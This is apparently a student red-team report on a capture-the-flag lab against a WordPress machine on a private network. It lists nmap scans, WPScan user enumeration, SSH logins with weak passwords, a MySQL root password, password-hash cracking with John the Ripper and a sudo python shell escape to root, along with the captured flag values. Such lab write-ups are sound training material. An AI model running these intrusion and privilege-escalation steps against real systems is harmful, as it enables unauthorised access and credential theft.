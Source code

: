 ﻿Joaquin Serrano

# Red Team: Summary of Operations

Table of Contents:
   * Exposed Services
   * Critical Vulnerabilities
   * Exploitation

### Exposed Services:
- Kali Linux Command:
Ping Scan only: $ nmap -sP 192.168.1.0/24
![](https://github.com/y2keno/final_project/blob/30062c908e5644872dddccd38346283d0b5f18b4/Final_Red_Team/images/image7.png)
 
Nmap scan results for each machine reveal the below services and OS details:

- Kali Linux Command: 
Find the version of the service running on port 192.168.1.110
$ nmap -sV 192.168.1.110
![](https://github.com/y2keno/final_project/blob/df913b8917446432e94c1c6375b6100aa8389038/Final_Red_Team/images/image8.png)

This scan identifies the services below as potential points of entry:
- Target 1-Michael
   * Port 22/TCP Open SSH
   * Port 80/TCP Open HTTP
   * Port 111/TCP Open rcpbind
   * Port 139/TCP Open netbios-ssn
   * Port 445/TCP Open netbios-ssn

### Critical Vulnerabilities: 
The following vulnerabilities were identified on each target:
* Target 1
   * Unsalted User Password Hash (WordPress Database)
   * Misconfiguration of User Privileges/Privilege Escalation
   * Weak User Password
   * User Enumeration (WordPress site)
Exploitation
* dirb returns the enumerated directories found within the target URL
  

  

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


* Target 1
   * flag1.txt: b9bbcb33e11b80be759c4e844


      * Exploit Used
         * WPScan to enumerate users of the Target 1 WordPress site
         * SSH using Michael’s credentials, Flag 1 was found
         * Flag 1 was found in /var/www in the HTML folder


Kali Linux Command: 
* $ wpscan -u http://192.168.1.110/wordpress -eu
  

  

  



   * flag2.txt: fc3fd58dcdad9ab23faca6e9a36e581c


   * Exploit used:
         * Continuation of exploit from Target 1. 
         * SSH using Michael’s credentials, Flag 2 was found. 
         * Flag 2 was found in /var/www next to the HTML folder that held Flag 1. 
Kali Linux Commands: 
      * $ ssh michael@192.168.1.110
      * pwd
      * cd var/www
      * ls -l
      * cat flag2.txt
  

  

* Flag 3: afc01ab56b50591e7dccf93122770cd2


* Exploit used: 
   * Continuation of Exploit from Target 1. 
* Capturing Flag 3: 
   * Gaining My SQL database access
   * Flag 3 was found in wp_posts table in the WordPress database
  





Kali Linux Command: $ mysql -u root -p
* Password: R@v3nSecurity  Host: 127.0.0.1
* Or $ mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1 
* show databases;
* use wordpress; 
* show tables;
* Select * from wp_users; 




  



  



  

  

  

* Flag 4: 715dea6c055b9fe3337544932f2941ce
* Exploit used:
   * Unsalted password hash and privilege escalation with Python
* Capturing flag 4: Secure user credentials from database, utilize John the Ripper to crack hash and use python to gain root privileges. 
   * Utilizing the info from capturing flag 3. The Select * from wp_users command will reveal the username and password hashes for Michael and Steven utilizing MySQL.
   * Copied the username and password hash for Steven. Saved the file and named it  hash.txt


* Kali Linux Commands: 
   * mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1
   * show databases; 
   * use wordpress;
   * show tables; 
   * select * from wp_users;
  

  

* Utilized John the Ripper to crack the password hash from the hash.txt file.
* Kali Linux command: 
   * $ john hash
  

* Steven Password cracked: pink84
  

* SSH using Steven’s credentials, Flag 4 was found.
* ssh steven@192.168.1.110 
* pw:pink84
* sudo -l
* sudo python -c ‘import pty;pty.spawn(“/bin/bash”);’
  

* Use python to gain root privileges
  

* cd root
* ls
* cat flag4.txt
* Captured Flag4